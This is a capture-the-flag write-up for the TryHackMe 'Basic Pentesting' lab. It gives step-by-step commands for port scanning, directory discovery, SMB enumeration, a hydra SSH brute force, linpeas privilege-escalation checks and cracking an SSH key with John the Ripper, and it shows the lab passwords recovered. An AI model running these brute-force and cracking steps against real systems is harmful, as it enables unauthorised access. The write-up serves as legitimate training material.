










# TryHackMe - Basic Pentesting

**Platform:** TryHackMe  
**Room / CTF:** Basic Pentesting  

 

---

# Basic Pentesting Writeup

## 1. Scanning the Target

First, we need to find the services exposed by the target machine.  
To do this, we use **nmap** to scan the network and enumerate the running services.

```bash
nmap -sS -T4 10.65.189.132
```



---

# 2. Finding Hidden Directories

Next, we try to discover hidden directories on the web server using **gobuster**.

```bash
gobuster dir -u http://10.65.189.132 -t 50 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

The hidden directory found is:

```
development
```



---

# 3. Inspecting the Development Directory

Inside the `development` directory we find 2 files called:

```
dev.txt
j.txt
```

It contains a **message exchange between two users: `j` and `k`**.

From the conversation we learn that:
- User **j has a weak password**
- These usernames may be useful later for **SSH brute forcing**
- We need to find the **complete name of user j**


.

---

# 4. SMB Enumeration

Next, we check the **SMB service**.

SMB normally runs on:
- **Port 139**
- **Port 445 (more secure)**

We use **enum4linux** to enumerate SMB.

```bash
enum4linux -a TARGET_IP
```



From the enumeration we find two users:

```
jan
kay
```

---

# 5. Brute Forcing SSH Password

We start with the user **jan**.

To brute force the password we use **hydra** with the rockyou wordlist.

```bash
hydra -l jan -t 16 -P /usr/share/wordlists/rockyou.txt ssh://10.65.189.132
```



The password found is:

```
Armando
```

---

# 6. SSH Access

Now we login using the credentials.

```bash
ssh jan@10.65.189.132
```

After logging in, we check the home directory but find nothing interesting.

Then we look in the **kay directory**:

```bash
cd /home/kay
```

We find a file called:

```
pass.bak
```

However, we **cannot read it**.

---

# 7. Privilege Escalation Enumeration

To find vulnerabilities we use **linpeas**.

First, copy it to the target machine:

```bash
scp linpeas.sh jan@10.10.104.79:/dev/shm
```

Then execute it:

```bash
/dev/shm/linpeas.sh
```

  


---

# 8. Finding an RSA Key

During enumeration we find an **RSA private key**.



We copy the key to our machine as:

```
key.txt
```

---

# 9. Cracking the SSH Key

We convert the key to a hash using **ssh2john**:

```bash
ssh2john key.txt > pass.hash
```

Then we crack it with **John The Ripper**:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt pass.hash
```



We successfully obtain **kay's password**.

---

# 10. SSH as Kay

Now we login using the key:

```bash
ssh -i sshh kay@target_ip
```

Once connected, we can finally read the file:

```
pass.bak
```

The password is:

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

---

# Conclusion

Steps performed:

1. Scanned the machine using **nmap**
2. Discovered hidden directory with **gobuster**
3. Extracted usernames from **dev.txt**
4. Enumerated SMB using **enum4linux**
5. Brute forced SSH using **hydra**
6. Logged in as **jan**
7. Used **linpeas** for enumeration
8. Found an **RSA private key**
9. Cracked the key with **John the Ripper**
10. Logged in as **kay** and retrieved the final password
